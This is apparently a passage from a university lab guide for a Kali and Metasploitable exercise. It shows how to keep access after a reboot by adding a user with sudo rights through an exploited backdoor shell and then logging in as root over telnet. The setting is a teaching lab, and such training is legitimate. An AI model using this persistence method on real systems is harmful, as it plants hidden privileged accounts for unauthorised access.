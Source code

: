 + Try putting the Kali and Metasploitable windows side by side, run the “reboot” command. 

You will notice that when you rebooted Metasploitable, the backdoor shell stopped working. To gain access to the machine we would have to run the exploit again which might be problematic. We need therefore to make our access persistent.

## Making our access persistent

As we saw in the Nmap scan, the victim is already running both SSH and Telnet, so the easiest way to gain persistent access is by adding an extra user to the system.

+ Run the exploit again to get the backdoor shell back, then run the following commands:

```bash
useradd ttm4175 % Add 'ttm175' as a new user
passwd ttm4175 % Set the password for the new user
usermod -aG sudo ttm4175 % Add the user to the 'admin' group, this is equivalent to being root
reboot
```

The second command will ask you to enter a password for the new user.

+ After running the reboot command, wait until Metasploitable has rebooted and then try to login with for example telnet: `telnet <IP_address_victim_machine>`

+ After logging in, test that you still can get root access:

```bash
$ sudo su % Switch to the root user, 'su' means substitute user
# whoami
```

The last command should print "root" if successful.
